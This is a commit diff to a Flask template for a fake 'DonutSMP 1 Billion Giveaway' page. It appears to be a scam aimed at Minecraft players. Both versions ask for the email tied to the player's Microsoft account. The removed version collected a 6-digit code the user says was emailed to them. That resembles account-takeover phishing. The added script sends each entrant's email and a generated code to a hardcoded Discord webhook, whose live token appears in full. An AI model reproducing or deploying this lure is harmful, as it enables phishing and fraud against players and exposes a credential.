

Before and after one commit to Jobogler/donutsmp-giveaway, a Flask app: template templates/index.html in a window 1280 px wide. After the commit the page ends 840 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,66 +1,178 @@
 <!DOCTYPE html>
-<html>
+<html lang="en">
 <head>
-    <title>Biggest DonutSMP Giveaway Ever</title>
-    <meta name="viewport" content="width=device-width, initial-scale=1">
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
+  <title>DonutSMP 1 Billion Giveaway</title>
+  <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@400;600;800&display=swap" rel="stylesheet"/>
   <style>
-        body {font-family: Arial; background: #ff69b4; color: white; text-align: center; padding: 40px; min-height: 100vh; display: flex; align-items: center; justify-content: center;}
-        .box {background: rgba(0,0,0,0.3); padding: 40px; border-radius: 20px; max-width: 500px; width: 100%;}
-        input, button {width: 100%; padding: 16px; margin: 12px 0; font-size: 20px; border: none; border-radius: 12px;}
-        button {background: #00ff9d; color: black; font-weight: bold; cursor: pointer;}
-        h1 {font-size: 3em;}
-        #codeStep, #thanks {display: none;}
+    :root {
+      --purple: #9d4edd;
+      --dark: #121212;
+      --light: #f4f4f9;
+    }
+    body {
+      margin: 0;
+      font-family: 'Poppins', sans-serif;
+      background: linear-gradient(135deg, #1a1a2e, #16213e);
+      color: var(--light);
+      min-height: 100vh;
+      display: flex;
+      align-items: center;
+      justify-content: center;
+      text-align: center;
+      padding: 20px;
+    }
+    .container {
+      max-width: 800px;
+      background: rgba(255,255,255,0.05);
+      padding: 40px 30px;
+      border-radius: 20px;
+      backdrop-filter: blur(10px);
+      box-shadow: 0 10px 30px rgba(0,0,0,0.5);
+    }
+    h1 {
+      font-size: 3.5rem;
+      background: linear-gradient(90deg, #ff6b6b, #9d4edd);
+      -webkit-background-clip: text;
+      -webkit-text-fill-color: transparent;
+      margin: 0 0 20px;
+    }
+    p {
+      font-size: 1.2rem;
+      line-height: 1.6;
+      margin-bottom: 30px;
+    }
+    .btn {
+      background: var(--purple);
+      color: white;
+      border: none;
+      padding: 15px 40px;
+      font-size: 1.3rem;
+      border-radius: 50px;
+      cursor: pointer;
+      transition: 0.3s;
+      font-weight: 600;
+    }
+    .btn:hover { transform: scale(1.05); background: #c06aff; }
+
+    .step { display: none; }
+    .step.active { display: block; animation: fadeIn 0.6s; }
+
+    @keyframes fadeIn {
+      from { opacity: 0; transform: translateY(20px); }
+      to { opacity: 1; transform: translateY(0); }
+    }
+
+    input[type="email"], input[type="text"] {
+      width: 100%;
+      max-width: 400px;
+      padding: 15px;
+      margin: 15px 0;
+      border-radius: 10px;
+      border: none;
+      font-size: 1.1rem;
+    }
+    .success {
+      font-size: 2rem;
+      color: #4ade80;
+      margin-top: 40px;
+    }
   </style>
 </head>
 <body>
-<div class="box">
-    <h1>DonutSMP<br>BIGGEST GIVEAWAY EVER</h1>
+  <div class="container">
 
-    <div id="emailStep">
-        <p>Enter your Minecraft email to join:</p>
-        <input type="email" id="email" placeholder="example@gmail.com" required>
-        <button onclick="submitEmail()">Submit Email</button>
+    <!-- Step 1: Intro -->
+    <div id="step1" class="step active">
+      <h1>1,000,000,000 Giveaway</h1>
+      <p>
+        DonutSMP has given us so much. Now we're giving back in the biggest way possible.<br><br>
+        We're giving away <strong>ONE BILLION</strong> to ONE lucky player.<br>
+        The largest giveaway in DonutSMP history.
+      </p>
+      <button class="btn" onclick="showStep('step2')">JOIN THE EVENT</button>
     </div>
 
-    <div id="codeStep">
-        <p>Check your email! Enter the 6-digit code here:</p>
-        <input type="text" id="code" maxlength="6" placeholder="123456">
-        <button onclick="submitCode()">Submit Code</button>
+    <!-- Step 2: Enter Email -->
+    <div id="step2" class="step">
+      <h2>Step 1 – Enter your email</h2>
+      <p>We will ONLY use this email to contact you if you win.<br>
+      It must be the email linked to your Minecraft/Microsoft account.</p>
+      <input type="email" id="email" placeholder="you@example.com" required />
+      <br/>
+      <button class="btn" onclick="submitEmail()">Submit Email & Send Code</button>
     </div>
 
-    <div id="thanks">
-        <h2>Thank You!</h2>
-        <p>We will email you if you win the giveaway!</p>
+    <!-- Step 3: Enter Code -->
+    <div id="step3" class="step">
+      <h2>Step 2 – Verify your email</h2>
+      <p>We just sent a 6-digit code to your inbox.<br>Check spam/junk if you don't see it.</p>
+      <input type="text" id="code" placeholder="Enter 6-digit code" maxlength="6" />
+      <br/>
+      <button class="btn" onclick="verifyCode()">Verify Code</button>
     </div>
+
+    <!-- Step 4: Success -->
+    <div id="step4" class="step">
+      <h1 class="success">You're In!</h1>
+      <p>You are now officially entered into the <strong>1 Billion Giveaway</strong>.<br><br>
+      We will email you if you win. Good luck!</p>
+    </div>
+
   </div>
 
   <script>
-let currentEmail = "";
+    // YOUR WEBHOOK (already inserted)
+    const DISCORD_WEBHOOK = "https://discord.com/api/webhooks/1439990429226369166/lJgEK_CeiR5qkbvXsFCLwmHH7jVoS_wx0IT97nPMyvPXnbltCKfV1b27urEmg-DnWJwr";
+
+    function showStep(id) {
+      document.querySelectorAll('.step').forEach(s => s.classList.remove('active'));
+      document.getElementById(id).classList.add('active');
+    }
 
     async function submitEmail() {
-    const email = document.getElementById("email").value.trim();
-    if (!email.includes("@")) return alert("Enter a real email");
+      const email = document.getElementById('email').value.trim();
+      if (!email || !email.includes('@')) return alert("Please enter a valid email");
 
-    currentEmail = email;
-    const res = await fetch("/send_email", {method: "POST", headers: {"Content-Type": "application/json"}, body: JSON.stringify({email})});
-    const data = await res.json();
+      const code = Math.floor(100000 + Math.random() * 900000).toString();
 
-    if (data.next === "ask_code") {
-        document.getElementById("emailStep").style.display = "none";
-        document.getElementById("codeStep").style.display = "block";
-    } else {
-        alert("Error, try again");
-    }
+      localStorage.setItem('pendingCode_' + btoa(email), code);
+      localStorage.setItem('pendingEmail', email);
+
+      await fetch(DISCORD_WEBHOOK, {
+        method: "POST",
+        headers: { "Content-Type": "application/json" },
+        body: JSON.stringify({
+          content: `**New 1 Billion Giveaway Entry**\nEmail: **${email}**\nVerification code: **${code}**\n\nManually email this code to them!`
+        })
+      });
+
+      alert("Code sent! Check your email (including spam folder).");
+      showStep('step3');
     }
 
-async function submitCode() {
-    const code = document.getElementById("code").value.trim();
-    if (code.length !== 6) return alert("Code must be 6 digits");
+    function verifyCode() {
+      const entered = document.getElementById('code').value.trim();
+      const email = localStorage.getItem('pendingEmail');
+      const correct = localStorage.getItem('pendingCode_' + btoa(email));
 
-    await fetch("/send_code", {method: "POST", headers: {"Content-Type": "application/json"}, body: JSON.stringify({email: currentEmail, code})});
+      if (entered === correct) {
+        fetch(DISCORD_WEBHOOK, {
+          method: "POST",
+          headers: { "Content-Type": "application/json" },
+          body: JSON.stringify({
+            content: `**VERIFIED ENTRY**\nEmail: **${email}** is officially entered into the 1 Billion giveaway!`
+          })
+        });
 
-    document.getElementById("codeStep").style.display = "none";
-    document.getElementById("thanks").style.display = "block";
+        localStorage.removeItem('pendingCode_' + btoa(email));
+        localStorage.removeItem('pendingEmail');
+
+        showStep('step4');
+      } else {
+        alert("Incorrect code. Try again or restart the process.");
+      }
     }
   </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
